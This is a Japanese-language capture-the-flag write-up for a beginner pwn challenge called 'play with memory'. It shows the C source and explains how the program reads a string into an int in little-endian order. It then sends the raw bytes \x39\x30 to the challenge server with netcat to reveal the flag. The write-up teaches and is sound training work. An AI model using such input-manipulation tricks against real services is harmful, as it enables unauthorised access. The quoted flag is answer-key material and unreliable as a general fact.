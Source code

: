 # play with memory:Pwn:100pts
1, 2, 3, 4, 5!  

[play-with-memory.c](play-with-memory.c)　[memory](memory)  

`nc 34.170.146.252 57944`  

# Solution
CソースとELFが渡される。  
ソースは以下の通りであった。  
```c
#include <stdio.h>
#include <string.h>
#include <fcntl.h>
#include <unistd.h>

void print_flag() {
  char flag[256];
  int fd = open("./flag.txt", O_RDONLY);
  if (fd < 0) { puts("./flag.txt not found"); return; }
  write(1, flag, read(fd, flag, sizeof(flag)));
}

int main() {
  setbuf(stdout, NULL);
  
  int number = 0;
  printf("input your number!: ");
  scanf("%4s", &number);

  if (number == 12345) {
    print_flag();
  } else {
    printf("number: %d (0x%x)", number, number);
  }
  return 0;
}
```
文字列入力を受け取り、それを数値として解釈して`12345`と一致した場合に`print_flag`関数によりフラグが表示される。  
注意点として、文字列として12345と愚直に入力しても875770417(0x34333231)となる。  
```bash
$ nc 34.170.146.252 57944
input your number!: 12345
number: 875770417 (0x34333231)
```
12345はHexで0x3039なので、以下のように行う。  
```bash
$ echo -e '\x39\x30' | nc 34.170.146.252 57944
input your number!: Alpaca{l1ttl3_end1an_1s_qu1t3_h4rd_t0_us3d_t0}
```
flagが得られた。  

## Alpaca{l1ttl3_end1an_1s_qu1t3_h4rd_t0_us3d_t0}